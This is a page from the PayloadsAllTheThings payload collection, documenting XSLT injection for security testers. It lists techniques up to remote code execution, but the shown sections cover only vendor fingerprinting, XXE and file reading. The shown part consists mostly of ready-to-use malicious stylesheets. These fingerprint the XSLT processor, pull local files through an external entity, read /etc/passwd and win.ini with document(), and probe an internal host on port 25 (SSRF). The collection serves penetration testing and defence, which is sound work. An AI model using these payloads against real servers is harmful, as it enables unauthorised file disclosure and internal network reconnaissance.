

repository: swisskyrepo/PayloadsAllTheThings · page: XSLT Injection/index.html · generator: mkdocs

# XSLT Injection

> Processing an un-validated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
    - [Determine the Vendor And Version](#determine-the-vendor-and-version)
    - [External Entity](#external-entity)
    - [Read Files and SSRF Using Document](#read-files-and-ssrf-using-document)
    - [Write Files with EXSLT Extension](#write-files-with-exslt-extension)
    - [Remote Code Execution with PHP Wrapper](#remote-code-execution-with-php-wrapper)
    - [Remote Code Execution with Java](#remote-code-execution-with-java)
    - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
- [Labs](#labs)
- [References](#references)

## Tools

No known tools currently exist to assist with XSLT exploitation.

## Methodology

### Determine the Vendor and Version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
 <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

Don't forget to test for XXE when you encounter XSLT files.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Read Files and SSRF Using Document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
     <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```
